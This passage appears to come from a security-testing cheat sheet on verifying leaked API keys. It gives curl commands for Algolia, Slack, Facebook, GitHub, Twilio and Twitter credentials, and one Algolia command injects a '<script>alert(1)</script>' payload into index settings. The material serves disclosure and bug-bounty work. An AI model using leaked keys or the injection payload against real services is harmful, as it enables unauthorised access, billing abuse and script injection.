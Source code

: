 

Impact:
* Consuming the company's monthly quota or can over-bill with unauthorized usage of this service and do financial damage to the company
* Conduct a denial of service attack specific to the service if any limitation of maximum bill control settings exist in the Google account

### Algolia 

```powershell
curl --request PUT \
  --url https://<application-id>-1.algolianet.com/1/indexes/<example-index>/settings \
  --header 'content-type: application/json' \
  --header 'x-algolia-api-key: <example-key>' \
  --header 'x-algolia-application-id: <example-application-id>' \
  --data '{"highlightPreTag": "<script>alert(1);</script>"}'
```

### Slack API Token

```powershell
curl -sX POST "https://slack.com/api/auth.test?token=xoxp-TOKEN_HERE&pretty=1"
```

### Facebook Access Token

```powershell
curl https://developers.facebook.com/tools/debug/accesstoken/?access_token=ACCESS_TOKEN_HERE&version=v3.2
```

### Github client id and client secret

```powershell
curl 'https://api.github.com/users/whatever?client_id=xxxx&client_secret=yyyy'
```

### Twilio Account_sid and Auth token

```powershell
curl -X GET 'https://api.twilio.com/2010-04-01/Accounts.json' -u ACCOUNT_SID:AUTH_TOKEN
```

### Twitter API Secret

```powershell
curl -u 'API key:API secret key' --data 'grant_type=client_credentials' 'https://api.twitter.com/oauth2/token'
```

### Twitter Bearer Token

```powershell
curl --request GET --url https://api.twitter.com/1.1/account_activity/all/subscriptions/count.json --header 'authorization: Bearer TOKEN'
```
